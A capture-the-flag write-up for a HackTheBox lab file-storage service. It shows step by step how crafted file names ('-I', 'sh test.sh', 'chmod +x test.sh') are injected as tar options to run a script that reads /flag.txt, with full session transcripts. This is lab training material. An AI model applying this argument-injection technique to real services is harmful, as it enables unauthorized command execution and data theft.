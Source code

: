 > Some group of people seem to have made a network service that lets you store files temporarily. But little did they know about the mistake they made coding their script... Try to get familiar with their service and discover the vulnerability behind it. Your goal is to leak the contents of /𝗳𝗹𝗮𝗴.𝘁𝘅𝘁.

1. We tried to connect to the service and check its utilities.
   - For option 1, we can decide filename and its content.
   - For option 2, it lists the file that we created.
   - For option 3, it deletes a file according to file id (0-9)
   - For option 4, it shows a file's content according to file id (0-9)
   - For option 5, it compresses all the files in tar and output base64 encoded tar. (perhaps `tar` and `base64` were used)

```bash
$ nc 165.22.115.189 32212
.-------------------------------------------------------------------------------------.
| ___  ____                  _____ _                                      __   _____  |
| |  \/  (_)                /  ___| |                                    /  | |  _  | |
| | .  . |_  ___ _ __ ___   \ `--.| |_ ___  _ __ __ _  __ _  ___  __   __`| | | |/' | |
| | |\/| | |/ __| '__/ _ \   `--. \ __/ _ \| '__/ _` |/ _` |/ _ \ \ \ / / | | |  /| | |
| | |  | | | (__| | | (_) | /\__/ / || (_) | | | (_| | (_| |  __/  \ V / _| |_\ |_/ / |
| \_|  |_/_|\___|_|  \___/  \____/ \__\___/|_|  \__,_|\__, |\___|   \_/  \___(_)___/  |
|             B y  H a c k T h e B o x  L a b s        __/ |                          |
|                                                     |___/                           |
`-----------------------.                                   .-------------------------'
                        |  Welcome to your online temporary |
                        |            Micro Storage          |
                        `-----------------------------------'

                                   \!/ WARNING \!/
   Your storage only lasts during the ongoing session, once the session killed, all
                  your files will be gone. Use this service responsibly.
                                 ---------o---------

1 => Upload a new file (10 file(s) remaining)             
2 => List your uploaded files (0 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
```

2. Since option `2`, `3` , and `4` don't contain possible injection parameter, we decided to combine option `1` and `5` to execute command injection. However, there are some special characters not allowed as a filename. 
   - After a series of trial-and-error, allowed special characters are `-_+=.`

3. We used [GTFObin](https://gtfobins.github.io/gtfobins/tar/) and [HackTricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) to check whether there was something to complete command injection.

```
1 => Upload a new file (10 file(s) remaining)             
2 => List your uploaded files (0 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: xf
[*] Start typing your file content: (send 'EOF' when done)
1
EOF
[+] Your file "xf" has been saved. (2 bytes written)
1 => Upload a new file (9 file(s) remaining)             
2 => List your uploaded files (1 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: -I
[*] Start typing your file content: (send 'EOF' when done)
2
EOF
[+] Your file "-I" has been saved. (2 bytes written)
1 => Upload a new file (8 file(s) remaining)             
2 => List your uploaded files (2 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: pwd
[*] Start typing your file content: (send 'EOF' when done)
3
EOF
[+] Your file "pwd" has been saved. (2 bytes written)
1 => Upload a new file (7 file(s) remaining)             
2 => List your uploaded files (3 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 5
[+] Your base64 encoded archive:
L2hvbWUvc3RvcmFnZS9kZmJhMWRkNzU3MGE2OTVjYTY1OGM0ZTcxZTNjMmIxMgo=
```

4. We cannot use `/` to get `/flag.txt` from filename. Therefore, we decided to put `cat /flag.txt` inside a script file, `test.sh`, and execute `tar xf -I "sh test.sh"`.
   - First, we added execution permission to our `test.sh`
   - The file deletion will change the index of the files, and thus we needed to write our command in advance.

```shell
1 => Upload a new file (10 file(s) remaining)             
2 => List your uploaded files (0 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1 
[*] Enter your file name: xf 
[*] Start typing your file content: (send 'EOF' when done)
1EOF
[+] Your file "xf" has been saved. (1 bytes written)
1 => Upload a new file (9 file(s) remaining)             
2 => List your uploaded files (1 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: -I
[*] Start typing your file content: (send 'EOF' when done)
EOF
1 => Upload a new file (8 file(s) remaining)             
2 => List your uploaded files (2 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: chmod +x test.sh
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "chmod +x test.sh" has been saved. (0 bytes written)
1 => Upload a new file (7 file(s) remaining)             
2 => List your uploaded files (3 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: sh test.sh      
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "sh test.sh" has been saved. (0 bytes written)
1 => Upload a new file (6 file(s) remaining)             
2 => List your uploaded files (4 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: test.sh
[*] Start typing your file content: (send 'EOF' when done)
cat /flag.txt
EOF
[+] Your file "test.sh" has been saved. (14 bytes written)
1 => Upload a new file (5 file(s) remaining)             
2 => List your uploaded files (5 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 5
[+] Your base64 encoded archive:


1 => Upload a new file (5 file(s) remaining)             
2 => List your uploaded files (5 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 3
[*] Enter the file identifier: (0 - 9)
>>> 2
[*] Deleting "chmod +x test.sh"...
[+] File deletion completed.
1 => Upload a new file (6 file(s) remaining)             
2 => List your uploaded files (4 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 2
[*] Fetching your uploaded files...
[*] 0. xf
[*] 1. -I
[*] 2. sh test.sh
[*] 3. test.sh
1 => Upload a new file (6 file(s) remaining)             
2 => List your uploaded files (4 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 5
[+] Your base64 encoded archive:
SFRCe0BidXMxTmdfZ1RmMF9iMU4kX2M0bl9iM19mVW5fczBtM3QxbWVTX19yMWd8LXx0Pz8hIV9fYzRmZGVjZjh9Cg==
```